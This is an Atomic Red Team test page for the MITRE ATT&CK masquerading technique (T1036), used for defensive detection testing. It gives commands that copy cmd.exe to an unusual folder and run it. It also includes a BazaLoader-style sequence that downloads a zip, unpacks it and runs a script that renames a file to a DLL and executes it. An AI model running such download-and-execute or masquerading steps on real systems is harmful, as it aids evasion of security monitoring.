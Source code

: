 # T1036 - Masquerading
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1036)
<blockquote>Adversaries may attempt to manipulate features of their artifacts to make them appear legitimate or benign to users and/or security tools. Masquerading occurs when the name or location of an object, legitimate or malicious, is manipulated or abused for the sake of evading defenses and observation. This may include manipulating file metadata, tricking users into misidentifying the file type, and giving legitimate task or service names.

Renaming abusable system utilities to evade security monitoring is also a form of [Masquerading](https://attack.mitre.org/techniques/T1036).(Citation: LOLBAS Main Site)</blockquote>

## Atomic Tests

- [Atomic Test #1 - System File Copied to Unusual Location](#atomic-test-1---system-file-copied-to-unusual-location)

- [Atomic Test #2 - Malware Masquerading and Execution from Zip File](#atomic-test-2---malware-masquerading-and-execution-from-zip-file)


<br/>

## Atomic Test #1 - System File Copied to Unusual Location
It may be suspicious seeing a file copy of an EXE in System32 or SysWOW64 to a non-system directory or executing from a non-system directory.

**Supported Platforms:** Windows


**auto_generated_guid:** 51005ac7-52e2-45e0-bdab-d17c6d4916cd






#### Attack Commands: Run with `command_prompt`! 


```cmd
copy %WINDIR%\System32\cmd.exe /Y %ALLUSERSPROFILE%\cmd.exe
start %ALLUSERSPROFILE%\cmd.exe
```

#### Cleanup Commands:
```cmd
del %ALLUSERSPROFILE%\cmd.exe >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Malware Masquerading and Execution from Zip File
When the file is unzipped and the README.cmd file opened, it executes and changes the .pdf to .dll and executes the dll. This is a BazaLoader technique [as reported here](https://twitter.com/ffforward/status/1481672378639912960)

**Supported Platforms:** Windows


**auto_generated_guid:** 4449c89b-ec82-43a4-89c1-91e2f1abeecc





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | Location of zip file | Url | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1036/bin/T1036.zip|


#### Attack Commands: Run with `powershell`! 


```powershell
Expand-Archive -Path $env:userprofile\Downloads\T1036.zip -DestinationPath $env:userprofile\Downloads\T1036 -Force
cd $env:userprofile\Downloads\T1036
cmd /c $env:userprofile\Downloads\T1036\README.cmd >$null 2>$null
```

#### Cleanup Commands:
```powershell
taskkill /IM Calculator.exe /f >$null 2>$null
Remove-Item $env:userprofile\Downloads\T1036 -recurse -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Zip file must be present.
##### Check Prereq Commands:
```powershell
if (Test-Path $env:userprofile\Downloads\T1036.zip) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest -OutFile "$env:userprofile\Downloads\T1036.zip" #{url}
```




<br/>
